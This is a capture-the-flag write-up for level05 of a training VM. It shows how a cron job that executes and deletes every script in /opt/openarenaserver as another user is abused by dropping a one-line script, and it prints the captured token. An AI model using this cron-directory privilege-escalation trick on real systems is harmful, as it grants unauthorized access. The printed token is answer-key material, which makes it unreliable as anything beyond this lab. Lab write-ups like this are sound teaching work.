 # level05 solve

When you get logged or after a few minutes we receive a message

```
> You have new mail in /var/mail/level05
```

Opening the file we got a bash command

```
$ cat level05
> */2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

But some part was weird, so we decide to learn on the web what could be appends running that command.
After some research, we understood that was a <a href="https://cron-job.org/en/">cronjob</a> (search <a href="https://book.cakephp.org/2/fr/console-and-shells/cron-jobs.html">1</a>, <a href="https://www.thegeekstuff.com/2011/07/cron-every-5-minutes/">2</a>)

So with being informed, we decide to see what the cron script does

```
$ cat /usr/sbin/openarenaserver
> #!/bin/sh
>
> for i in /opt/openarenaserver/* ; do
>         (ulimit -t 5; bash -x "$i")
>         rm -f "$i"
> done
```

Because it's a cron, we know that will be a loop on all scripts in the folder, running and be deleted, and that every 2 minutes.

With that knowledge, we can create a script to get the password

Ok let's try that

```
$ echo "getflag > /tmp/flag" > /opt/openarenaserver/file
```

Waiting some time later (2min max)

```
$ cat /tmp/flag
> Check flag.Here is your token : viuaaale9huek52boumoomioc
```

We got it!

> <a href="../flag">flag</a> - <a href="../../level04">previous level</a> - <a href="../../level06">next level</a>
